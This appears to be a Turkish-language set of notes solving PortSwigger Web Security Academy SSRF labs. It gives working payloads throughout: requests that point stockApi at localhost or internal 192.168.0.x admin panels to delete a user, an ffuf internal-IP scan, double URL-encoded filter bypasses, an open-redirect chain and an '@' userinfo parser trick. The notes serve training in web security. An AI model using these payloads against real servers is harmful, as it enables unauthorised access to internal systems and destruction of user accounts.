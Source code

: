 Uzak sunucudaki cihazın istemeden başka bir sunucuya veya kendisi locali içerisindeki bir URI'a istek göndermesi sonucu oluşan açıktır.

Yani saldırgan, kurban sunucuyu bir "proxy" gibi kullanarak iç ağdaki ya da dış dünyadaki başka sistemlere erişmeye çalışır.

# LAB 1 
---

```HTTP
POST /product/stock HTTP/2
Host: 0a64008104b439dc81316b1a00540047.web-security-academy.net
Cookie: session=oU46rSBPCqyJpI7Plq0shmB8D7hz4tTD
Referer: https://0a64008104b439dc81316b1a00540047.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%
```
burada srockApi üzerinde bir SSRF var gördüldüğü üzere `http://localhost/admin` istek gönderip sonuca baktığımızda 
```html
<a href="/admin/delete?username=carlos">Delete</a>
```
endpointine istek göndererek carlos silinebilir 
```HTTP
POST /product/stock HTTP/2
Host: 0a64008104b439dc81316b1a00540047.web-security-academy.net
Cookie: session=oU46rSBPCqyJpI7Plq0shmB8D7hz4tTD

stockApi=http://localhost/admin/delete?username=carlos
```
isteğini göndererek kullanıcı silinebilir

# LAB 2 
---
FFUF payloadı ile hangi ip adresinde olduğunu bulmak için
```bash
ffuf -w asd.txt -u https://0a5400ae048e7aa5802953080014003a.web-security-academy.net/product/stock -X POST  -d "stockApi=http://192.168.0.FUZZ:8080/admin" -fc 500 
```
attığımızda yine gelen
```html
<a href="/http://192.168.0.63:8080/admin/delete?username=carlos">Delete</a>
```
yukarıdaki işlemi tekrar et 

# LAB 3
---
Burp Pro

# LAB 4 
---
stopcApi üzerinde 
`admin` `localhost` `127.0.0.1` stringleri yasaklı 
127.1/admin yasaklı
127.1/admi%6e yasaklı 
stockApi = 127.1/admi%25256e de olabilir `%25`-> `%` anlamına gelir
stockApi=http://127.1/admi%25%36%65 iki kere url encode 

# LAB 5 
---
bir stockApi alanı var yeniden 
Ancak bizden sadece endpoint almakta
Uygulamayı biraz daha incelediğimiz zaman /nextProduct endpointi karşımıza çıkıyor `path` değişkeni içerisindeki bir noktaya bizi redirect ettiriyor.
Bu `stockApi` değişkeni ile uygulamanın sadece endpoint ile istediğimiz bir pathe yönlendirmeye yarayacak

```HTTP
POST /product/stock HTTP/2
Host: 0a0200e203f4486181df7a19002200a2.web-security-academy.net
Cookie: session=4QjjXuPr9d1kTUyXOnxmK2teQN9cstNW

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```
şeklinde bir payload ile admin panelini görüyoruz yine `/admin/delete?username=carlos` ile labı çözüyoruz

# LAB 7
--- 
```
http://localhost:80%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos
```
payload bu bu payloadı inceleyelim 

`localhost:80%2523` --> **username** gibi davranır.

`stock.weliketoshop.net` --> **gerçek host** gibi davranır

Bazı URL parser’lar `@`’ten **sonrasını host** olarak algılar, **öncesini kullanıcı adı gibi** düşünür.  
Ancak bazı SSRF filtreleri sadece **domain kısmını kontrol eder**, yani `stock.weliketoshop.net` göründüğü için bu payload geçebilir.

